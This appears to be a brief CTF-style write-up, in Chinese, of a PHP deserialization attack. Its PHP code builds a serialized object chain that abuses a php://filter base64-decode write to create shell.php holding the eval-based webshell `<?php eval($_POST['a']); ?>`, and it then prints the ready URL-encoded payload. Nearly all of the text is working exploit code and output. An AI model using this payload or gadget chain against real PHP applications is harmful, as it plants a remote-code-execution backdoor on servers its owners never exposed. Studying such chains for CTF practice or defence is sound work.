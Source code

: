```php
<?php

class A
{
    protected $store;
    protected $key = 'php://filter/write=convert.base64-decode/resource=shell.php';
    protected $expire;

    public function __construct()
    {
        $this->store = new B();
        $this->cache = [];
        $this->complete = '000PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7ID8+';
    }
}

class B
{
    public function __construct()
    {
        $this->options = array(
            'prefix' => '',
            'serialize' => 'strval'
        );
    }
}

print(urlencode(serialize(new A())));
```

其中`PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7ID8+`为`<?php eval($_POST['a']); ?>`的base64编码

运行得到payload

```
O%3A1%3A%22A%22%3A5%3A%7Bs%3A8%3A%22%00%2A%00store%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A7%3A%22options%22%3Ba%3A2%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A9%3A%22serialize%22%3Bs%3A6%3A%22strval%22%3B%7D%7Ds%3A6%3A%22%00%2A%00key%22%3Bs%3A59%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Dshell.php%22%3Bs%3A9%3A%22%00%2A%00expire%22%3BN%3Bs%3A5%3A%22cache%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22complete%22%3Bs%3A39%3A%22000PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7ID8%2B%22%3B%7D
```

![](<./img/Pasted image 20230227230646.png>)

#Web #PHP #serialization #base64 #伪协议 #可变变量